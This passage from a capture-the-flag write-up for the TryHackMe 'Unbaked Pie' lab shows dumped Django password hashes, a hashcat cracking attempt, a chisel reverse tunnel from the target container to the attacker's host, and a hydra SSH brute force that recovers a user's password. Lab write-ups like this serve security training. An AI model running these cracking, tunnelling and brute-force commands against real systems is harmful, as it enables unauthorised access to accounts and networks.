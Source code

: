 ~~~
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|
~~~

But I was not able to crack these hashes (aborted the hashcat process after 2 hours).

~~~
$ cat ramsey.hash
ramsey:pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=
$ hashcat -m 10000 --username ramsey.hash /usr/share/wordlists/rockyou.txt
~~~

## Brute force ramsey's SSH account

Neither `ssh` nor `socat` are installed on the docker container. Let's use `chisel`.

On Kali:

~~~
┌──(kali㉿kali)-[/data/tryhackme/Unbaked_Pie/files]
└─$ ./chisel server -p 2223 --reverse
~~~

On the target:

~~~
root@8b39a559b296:/home# ./chisel client 10.8.50.72:2223 R:22:172.17.0.1:22
~~~

Now, let's crack `ramsey`'s accont:

~~~
┌──(kali㉿kali)-[/data/tryhackme/Unbaked_Pie/files]
└─$ hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://localhost                                        255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-05 09:26:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://localhost:22/
[22][ssh] host: localhost   login: ramsey   password: 12345678
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-05 09:26:44
~~~

## Ramsey's flag
